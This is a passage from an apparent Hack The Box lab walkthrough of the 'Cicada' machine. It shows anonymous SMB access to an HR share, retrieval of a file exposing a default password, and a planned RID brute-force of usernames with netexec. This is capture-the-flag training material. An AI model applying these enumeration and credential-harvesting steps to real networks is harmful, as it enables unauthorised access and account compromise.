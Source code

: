 ```
SMB         10.129.231.149  445    CICADA-DC        NETLOGON                        Logon server share 
SMB         10.129.231.149  445    CICADA-DC        SYSVOL                          Logon server share 
```
A guest user can read the `HR` folder, which gives us the opportunity to connect to the share with smbclient and check what files are in the directory and download them with `get`.
```
┌──(emvee㉿kali)-[~/Documents/HTB/Cicada]
└─$ smbclient -N //$ip/HR  
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 13:29:09 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 19:31:48 2024

                4168447 blocks of size 4096. 478149 blocks available
smb: \> get "Notice from HR.txt"
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (3.6 KiloBytes/sec) (average 3.6 KiloBytes/sec)
```
After downloading the file we should check the content of the file to see if there is any juicy information in the file.
```
┌──(emvee㉿kali)-[~/Documents/HTB/Cicada]
└─$ cat "Notice from HR.txt" 

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```
We have found the default password:  `Cicada$M6Corpb*@Lp#nZp!8` for each new user in the Cicada Corp. Since we have no username yet we should try to brute force usernames with [netexec](https://www.netexec.wiki/smb-protocol/enumeration/enumerate-users-by-bruteforcing-rid) via the `--ird-brute` argument
